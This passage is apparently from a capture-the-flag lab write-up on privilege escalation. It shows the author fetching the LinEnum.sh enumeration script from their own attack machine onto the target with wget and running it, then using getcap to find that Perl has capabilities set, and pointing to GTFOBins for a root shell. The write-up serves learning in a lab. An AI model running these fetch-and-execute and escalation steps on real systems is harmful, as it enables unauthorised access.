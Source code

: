 This is a point where I was truly clueless and resorted to running the LinEnum to find ways to elevate privileges. We transfer the [LinEnum.sh](https://github.com/rebootuser/LinEnum) file from our Local Kali machine to the target machine. After providing proper permission, we run the script.

```bash
wget http://10.17.11.201/LinEnum.sh
chmod +x LinEnum.sh
./LinEnum.sh
```

![Screenshot 2023-08-27 185305.png](Wonderland%203eba45d4cae64d18ae7dad24844366e2/Screenshot_2023-08-27_185305.png)

After looking for some time, we found that Perl is set with the capabilities. This could be helpful to get root

![Screenshot 2023-08-27 185156.png](Wonderland%203eba45d4cae64d18ae7dad24844366e2/Screenshot_2023-08-27_185156.png)

The command `getcap -r / 2>/dev/null` will list all of the files in the root directory (/) that have capabilities set.

```bash
getcap -r / 2>/dev/null
```

![Screenshot 2023-08-27 184519.png](Wonderland%203eba45d4cae64d18ae7dad24844366e2/Screenshot_2023-08-27_184519.png)

We used the **[gtfobin](https://gtfobins.github.io/gtfobins/perl/)** to get the exact command that we need to get the shell using the Perl when capabilities are set.
